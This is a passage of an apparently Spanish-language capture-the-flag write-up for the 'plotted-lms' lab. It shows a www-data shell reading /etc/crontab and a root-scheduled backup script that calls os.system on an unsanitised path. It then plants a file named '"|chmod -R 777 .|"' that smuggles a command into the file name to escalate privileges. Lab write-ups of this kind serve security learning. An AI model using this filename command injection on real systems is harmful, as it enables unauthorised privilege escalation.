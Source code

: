 ```bash
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
* * * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
#
```

¡¡Y hay un `cronjob` ejecutándolo con el usuario `plot_admin`!!

Entonces, si revisamos el script `backup.py`, hay 2 variables:

`moodle_location` y `backup_location`

¡Tenemos permisos de escritura sobre la `ruta` a la que apunta la variable `moodle_location`!

¡Y dado que esa variable no se está sanitizando, podemos inyectar código malicioso y se ejecutará ya que el script está usando la función `os.system`!

Así que básicamente creamos un archivo con el nombre `"|chmod -R 777 .|"` ¿qué hará este nombre de archivo? Romperá el código y, dado que tenemos el carácter de barra vertical (pipe) [|], en Linux se usa para ejecutar otro comando después del actual. ¡Otorgamos permiso `L-E-X` a todos para el directorio `home` del usuario `plot_admin`!

```bash
www-data@plotted-lms://var/www/uploadedfiles/filedir$ ls -la
total 44
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|chmod -R 777 .|"'
drwxrwxrwx  9 www-data www-data 4096 Apr 24 09:30  .
drwxrwxrwx 10 www-data www-data 4096 Jan 31 10:54  ..
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  0c
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  5f
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  75
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  8c
drwxrwxrwx  3 www-data www-data 4096 Apr 24 09:27  bf
drwxrwxrwx  3 www-data www-data 4096 Feb  4 07:14  d9
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  da
-rw-rw-rw-  1 www-data www-data  168 Jan 31 10:52  warning.txt
```
